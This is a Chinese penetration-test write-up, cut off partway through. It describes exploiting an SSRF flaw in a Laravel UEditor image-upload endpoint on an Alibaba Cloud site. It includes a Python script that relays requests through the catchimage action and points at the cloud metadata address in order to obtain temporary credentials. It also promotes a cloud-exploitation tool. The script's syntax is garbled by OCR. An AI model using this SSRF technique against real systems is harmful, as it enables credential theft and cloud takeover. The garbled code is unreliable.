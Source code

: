 ```yaml
---
title: 我用 CF 打穿了他的云上内网
---
```

<center><h1>我用 CF 打穿了他的云上内网</h1></center>

---

::: warning 注意

该文章适用于 CF v0.2.4 版本

:::

## 0x00 前言

最近在做项目的时候，测到了一个部署在云上的存在 Laravel UEditor SSRF 漏洞的站点，并且发现这个 SSRF 漏洞可以读取到临时凭证，这不巧了，正好最近写了一个云环境利用的工具。

开始之前这里先简单介绍一下这个工具，CF 是这个工具的名字，通过它可以很方便的进行云上内网渗透，比如一键在所有实例上执行命令、一键接管控制台、一键列出云服务资源等等。

项目地址：[https://github.com/teamssix/cf](https://github.com/teamssix/cf)

使用手册：[https://wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

十分建议在使用 CF 的时候，边使用边参考 CF 的使用手册，发现 CF 更多功能，那话不多说，下面咱们就开始吧。

## 0x01 打点，但，是云环境

一开始还是信息收集，首先通过指纹扫描发现在目标范围内的一个站点使用了 Laravel 框架，接着测试发现该站点存在 Laravel UEditor SSRF 漏洞。

这里的 SSRF 漏洞触发点在 UEditor 编辑器的上传图片功能中，下面我们尝试让服务器从 https://baidu.com?.jpg 获取图片。

<img width="1000" src="/img/1657632559.png">

然后我们读取返回的文件地址，通过返回的内容可以看到服务端确实访问到了 https://baidu.com?.jpg，说明这里确实存在 SSRF 漏洞。

<img width="1000" src="/img/1657632736.png">
通过查询该域名所属 IP，发现该站点位于云上，那么我们就可以利用这个 SSRF 漏洞去获取实例的元数据信息，但是这样每次获取数据都要手动发两个数据包就很麻烦，所以这里简单搞个脚本。

```python
import sys
import requests

ssrf_url = sys.argv[1]
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64"> AppleWebKit/537.36 (KHTML, like Gecko"> Chrome/100.0.3100.0 Safari/537.36"}

req1 = requests.get("https://your_target.com/laravel-u-editor-server/server?action=catchimage&source[]=" + ssrf_url,headers=headers">
req2 = requests.get(req1.json(">["list"][0]["url"],headers=headers">

print(req2.text">
```

通过查询该站点的 IP 得知该站点位于阿里云上，阿里云的元数据地址为 http://100.100.100.200/latest/meta-data ，我们尝试获取一下。
